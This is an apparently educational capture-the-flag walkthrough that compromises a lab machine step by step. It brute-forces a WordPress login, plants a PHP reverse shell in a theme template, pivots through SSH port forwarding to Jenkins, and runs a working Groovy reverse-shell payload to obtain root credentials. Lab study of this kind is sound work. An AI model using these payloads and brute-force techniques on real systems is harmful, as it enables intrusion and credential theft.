


## Enumeration

```shell
$nmap -sCV 10.10.192.249      
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-07 05:07 EST
Nmap scan report for 10.10.192.249 (10.10.192.249)
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.75 seconds
```
- The scan has revealed two open ports: 22 (SSH) and 80 (HTTP), so the best thing to do now is to start enumerating HTTP .
Adding the host to the /etc/hosts entries to make enumeration more convenient :

```shell
$cat /etc/hosts

127.0.0.1       localhost
127.0.1.1       skyper

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.192.249   internal.thm
```

> ##### The next step is to run a scan to find hidden files or directories using Gobuster, with the following flags :
> - dir to specify the scan should be done against directories and files .
> - -u to specify the target URL .
> - -w to specify the word list to use .

```shell
$gobuster dir -u http://10.10.192.249 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.249
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/01/07 05:14:43 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 313] [--> http://10.10.192.249/blog/]
/wordpress            (Status: 301) [Size: 318] [--> http://10.10.192.249/wordpress/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.192.249/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.192.249/phpmyadmin/]
/server-status        (Status: 403) [Size: 278]
```
- The scan has found blog, wordPress and phpmyadmin entries, when accessing the /blog directory through a browser, the site looks like a default WordPress installation :



* As of this moment we don’t know the username and password. However, we can able to enumerate usernames through different techniques :
- In a Default installation you should be able to find the users of a site by iterating through the user id’s and appending them to the sites URL. *** For example* */?author=1, adding 2 then 3 etc... ***


## Brute Force

- We have a login in down the page .
- i Trying login user 'admin' and password 'password' .



* Running WPScan  to attempt to brute-force the admin user password :

```shell
$wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/wp-login.php/ [10.10.192.249]
[+] Started: Sat Jan  7 05:32:13 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://internal.thm/blog/wp-login.php/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-login.php/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Most Common Wp Includes Query Parameter In Homepage (Passive Detection)
 |  - http://internal.thm/blog/wp-includes/css/dashicons.min.css?ver=5.4.2
 | Confirmed By:
 |  Common Wp Includes Query Parameter In Homepage (Passive Detection)
 |   - http://internal.thm/blog/wp-includes/css/buttons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-includes/js/wp-util.min.js?ver=5.4.2
 |  Query Parameter In Install Page (Aggressive Detection)
 |   - http://internal.thm/blog/wp-includes/css/dashicons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-includes/css/buttons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-admin/css/forms.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-admin/css/l10n.min.css?ver=5.4.2

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <===========================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / *******                   
Trying admin / kambal Time: 00:01:19 <                           > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: ****** 


```

> So Now We Loging in WordPress :


## Reverse Shell

- We got in, what’s next? We already know that a specific theme is outdated, let’s visit that using theme editor. Go to appearance and click “ theme editor ”.


> - We can use PHP to get the reverse shell using [Revershell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) payload . Either you can download on your machine or if you are using Kali Linux, it’s already there. 
> - We have to edit it to add our attacker machine IP address and port address. We are doing this because, after this .php file execution it gives us a reverse shell on specified IP address and port.
> - Now copy all the content of Revershell.php file and go to the theme editor of WordPress and click on “ 404 Template ”.
> - Remove everything from that file and paste the copied content and click on “ update file ”.

> The next step is to set up a Netcat listener, which will catch the reverse shell when it is executed by the victim host, using the following flags: 

> - -l to listen for incoming connections
> - -v for verbose output
> - -n to skip the DNS lookup
> - -p to specify the port to listen on

**CMD:**

```bash
$nc -lnvp 1234 
```

- Return to the page http://internel.thm/blog and click in Hello World! , also in the lien write any word for 404 :


- Now I have a revershell :


> I find to user but in so enable ,You must obtain a login password in orther to access it :

```bash
www-data@internal:/$cd /home
cd /home
www-data@internal:/home$ls -la
ls -la
total 12
drwxr-xr-x  3 root      root      4096 Aug  3  2020 .
drwxr-xr-x 24 root      root      4096 Aug  3  2020 ..
drwx------  7 aubreanna aubreanna 4096 Aug  3  2020 aubreanna
```
> When enumerating for common files and directories, the /opt directory seemed to contain some credentials for the “aubreanna” user :

```bash
www-data@internal:/tmp$cd /opt
cd /opt
www-data@internal:/opt$ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
www-data@internal:/opt$cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
www-data@internal:/opt$ 
```

## Login SSH

- Logging in as the aubreanna user via SSH :

```bash
$ssh aubreanna@10.10.192.249                                                                                       ✔  06:08:41  
The authenticity of host '10.10.192.249 (10.10.192.249)' can't be established.
ED25519 key fingerprint is SHA256:seRYczfyDrkweytt6CJT/aBCJZMIcvlYYrTgoGxeHs4.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:40: [hashed name]
    ~/.ssh/known_hosts:43: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.192.249' (ED25519) to the list of known hosts.
aubreanna@10.10.192.249's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 11:09:10 UTC 2023

  System load:  0.08              Processes:              115
  Usage of /:   63.9% of 8.79GB   Users logged in:        0
  Memory usage: 38%               IP address for eth0:    10.10.192.249
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.
0 packages can be updated.
0 updates are security updates.


Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56

aubreanna@internal:~$
```

> We found a user Flag :

```bash
aubreanna@internal:~$ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$cat user.txt 
THM{int3rna1_fl4g_1}
```
- When enumerating the home directory, found information about Jenkins, which appears to be running on port 8080 :

```bash
aubreanna@internal:~$ls
There  jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

> Since port 8080 can only by accessed locally, setting up port forwarding in order to redirect traffic to localhost on port 8080 to the target machine on port 8080 :

```bash
$ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.192.249                                           
aubreanna@10.10.192.249's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 11:15:01 UTC 2023

  System load:  0.0               Processes:              118
  Usage of /:   63.9% of 8.79GB   Users logged in:        1
  Memory usage: 38%               IP address for eth0:    10.10.192.249
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jan  7 11:11:26 2023 from 10.9.35.72'
aubreanna@internal:~$
```

- Jenkins is now accessible from the Kali host :


>Using metasploit to brute-force the password :

**STEP 1 :**


> searching a jenkins , i found a jenkins_login number 10

**STEP 2 :**


> We must fill in the important information :
> -    PASS_FILE
> -    RHOSTS
> -    STOP_ON_ACCESS
> -    USERNAME


**STEP 3 :**

> Now we just write run & click clavier entre for brute forcing password !!!


## Privilege Escalation

> we loging a Jenkins in browser .we have a Script Console format Groovy Script .
> - We can use Java Groovy to get the reverse shell using Groovy payload .
```java
    String host="ip-vpn";
    int port=1234;
    String cmd="/bin/bash";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- Remove everything from that file and paste the copied content and click on“ Run ”.


- The next step is to set up a Netcat listener, which will catch the reverse shell when it is executed by the victim host, using the following flags:

> -    -l to listen for incoming connections
> -    -v for verbose output
> -    -n to skip the DNS lookup
> -    -p to specify the port to listen on

**CMD:**

```bash
$nc -lnvp 1234                                                                                                
listening on [any] 1111 ...
connect to [10.9.35.72] from (UNKNOWN) [10.10.64.173] 54690
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins
ls -la
total 84
drwxr-xr-x   1 root root 4096 Aug  3  2020 .
drwxr-xr-x   1 root root 4096 Aug  3  2020 ..
-rwxr-xr-x   1 root root    0 Aug  3  2020 .dockerenv
drwxr-xr-x   1 root root 4096 Aug  3  2020 bin
drwxr-xr-x   2 root root 4096 Sep  8  2019 boot
drwxr-xr-x   5 root root  340 Jan  7 12:02 dev
drwxr-xr-x   1 root root 4096 Aug  3  2020 etc
drwxr-xr-x   2 root root 4096 Sep  8  2019 home
drwxr-xr-x   1 root root 4096 Jan 30  2020 lib
drwxr-xr-x   2 root root 4096 Jan 30  2020 lib64
drwxr-xr-x   2 root root 4096 Jan 30  2020 media
drwxr-xr-x   2 root root 4096 Jan 30  2020 mnt
drwxr-xr-x   1 root root 4096 Aug  3  2020 opt
dr-xr-xr-x 119 root root    0 Jan  7 12:02 proc
drwx------   1 root root 4096 Aug  3  2020 root
drwxr-xr-x   3 root root 4096 Jan 30  2020 run
drwxr-xr-x   1 root root 4096 Jul 28  2020 sbin
drwxr-xr-x   2 root root 4096 Jan 30  2020 srv
dr-xr-xr-x  13 root root    0 Jan  7 12:02 sys
drwxrwxrwt   1 root root 4096 Jan  7 12:02 tmp
drwxr-xr-x   1 root root 4096 Jan 30  2020 usr
drwxr-xr-x   1 root root 4096 Jul 28  2020 var
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

> we have a password root :


#### GOOD BYE!
